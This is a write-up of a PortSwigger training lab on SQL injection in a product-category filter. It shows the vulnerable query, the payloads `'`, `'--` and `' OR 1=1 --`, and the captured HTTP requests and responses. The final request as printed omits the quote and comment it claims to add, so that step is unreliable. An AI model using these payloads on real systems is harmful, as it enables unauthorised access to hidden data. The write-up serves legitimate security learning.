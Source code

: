 # Lab Description
## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of **all products in any category, both released and unreleased**.

# Lab Solution

The lab environment is straightforward. As displayed in the picture below, we are presented with a simple gift shop application. The application allows us to choose which category of gifts we want to decide to narrow down the search.

![welcome-eshop](Assets/1.png)

The highlighted section indicates a potentially vulnerable URI with the category variable `filter?category=Tech+gifts`

![vulnerable-parameter2](Assets/2.png)

According to the [OWASP attack description](https://owasp.org/www-community/attacks/SQL_Injection)[^1], an SQL injection attack occurs when:

1. An unintended data enters a program from an untrusted source.
2. The data is used to dynamically construct a SQL query

To test for the possibility we are going to introduce a single quote character after `Gift`, effectively modified our HTTP request to look like this:

`SELECT * FROM products WHERE category = 'Gifts'' AND released = 1`

Since single quotes indicate the beginning and end of a string in SQL, in this case, if the SQL query is dynamically constructed, it should produce an error.

We captured the HTTP request and send to [Burp Suite Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using)[^2]


**Modified HTTP request**
```
GET /filter?category=Tech+gifts' HTTP/1.1
Host: <redacted>.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

**HTTP response**
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 2554
```

While testing for SQL injection vulnerabilities or attempting to take over a query, we may face different [HTTP status codes](https://www.sqlinjection.net/http-errors/)[^3]. The HTTP status code 500 is a generic error response displayed when the server encounters an unexpected condition that prevents it from fulfilling the request. The server usually returns this error when no other error code is suitable. However, while testing, if we get a 500 error page back, chances are that injection is occurring [^4].

To solve the lab assignment, we need to modify a query so it fulfills two conditions
1. display all products in any category,
2. display released and unreleased products.

We can start solving the second part, which is easier, by modifying the query by adding `--` characters:

`SELECT * FROM products WHERE category = 'Gifts'-- ' AND released = 1`

In this HTTP request, everything after `--` is rendered as a comment and, therefore, not the condition that only released products should be displayed is interpreted.

Bellow, we can see the new modified HTTP request from Repeater and OK HTTP response, meaning that the web page understood our HTTP request and is sending the page in return.

**Modified HTTP request 2**
```
GET /filter?category=Tech+gifts'-- HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
**HTTP response 2**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 5156
```

After submitting a new HTTP request, we can see that the page's content changed, and we see a new gift compared to the previous picture, which indicates that we got rid of the released condition.

![all-tech-gifts-displayed](Assets/3.png)


As a last step, we need to cause the application to display all the products in any category, including those we do not know about. To do this, we will introduce a Boolean logic. [Boolean-based SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)[^5] is technique that relies on sending an SQL query, which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.

We modify our query by using the `OR` conditional statement and condition, which always will return true, such as 1=1.

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- ' AND released = 1`


Before sending the modified HTTP request, we need to URL encode the characters. Otherwise, the server sends an `HTTP/1.1 400 Bad Request` response.

**Modified HTTP request 3**
```
GET /filter?category=Tech+gifts+or+1%3d1 HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
**HTTP response 3**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 5361
```

![solved-lab](Assets/4.png)

Thank you for reading and see you in the next lab!


[^1]: https://owasp.org/www-community/attacks/SQL_Injection
[^2]: https://portswigger.net/burp/documentation/desktop/tools/repeater/using
[^3]: https://www.sqlinjection.net/http-errors/
[^4]: https://www.risco.org.br/recursos/WhitepaperSQLInjection.pdf
[^5]: https://www.acunetix.com/websitesecurity/sql-injection2/
